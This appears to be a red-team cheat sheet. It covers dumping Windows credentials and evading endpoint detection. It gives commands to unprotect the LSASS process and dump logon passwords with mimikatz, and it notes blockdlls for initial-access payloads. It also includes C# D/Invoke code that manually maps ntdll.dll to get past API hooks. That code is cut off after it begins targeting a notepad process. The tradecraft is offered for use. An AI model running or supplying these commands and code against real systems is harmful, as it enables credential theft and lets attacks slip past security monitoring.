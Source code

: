 ```
ppenum <PID>
unprotect_process <PID>
```

Now using the above on the LSASS process let's us dump LSASS
```
mimikatz !sekurlsa::logonpasswords
```
## EDR Evasion

### Process mitigation policy

`blockdlls` which is good for initial access payloads such as those made with gadgetToJscript. 

## D/Invoke Manual mapping

Mapping ntdll.dll is as simple as calling MapModuleToMemory with the path to the DLL

```
var map = Map.MapModuleToMemory("C:\\Windows\\System32\\ntdll.dll");
Console.WriteLine("NTDLL mapped to 0x{0:X}", map.ModuleBase.ToInt64());
```

Complete code to map:
```
using System;
using System.Diagnostics;
using System.Linq;
using System.Runtime.InteropServices;

using Data = DInvoke.Data;
using DInvoke.ManualMap;
using DInvoke.DynamicInvoke;

namespace ManualMapper
{
    internal class Program
    {
        [StructLayout(LayoutKind.Sequential)]
        struct CLIENT_ID
        {
            public IntPtr UniqueProcess;
            public IntPtr UniqueThread;
        }

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        delegate uint NtOpenProcess(
            ref IntPtr ProcessHandle,
            uint AccessMask,
            ref Data.Native.OBJECT_ATTRIBUTES ObjectAttributes,
            ref CLIENT_ID ClientId);

        static void Main(string[] args)
        {
            // print our own pid
            var self = Process.GetCurrentProcess();
            Console.WriteLine("This PID: {0}", self.Id);

            // find an instance of notepad
            var notepad = Process.GetProcessesByName("notepad").FirstOrDefault();

            if (notepad is null)
            {
                Console.WriteLine("No notepad process found");
```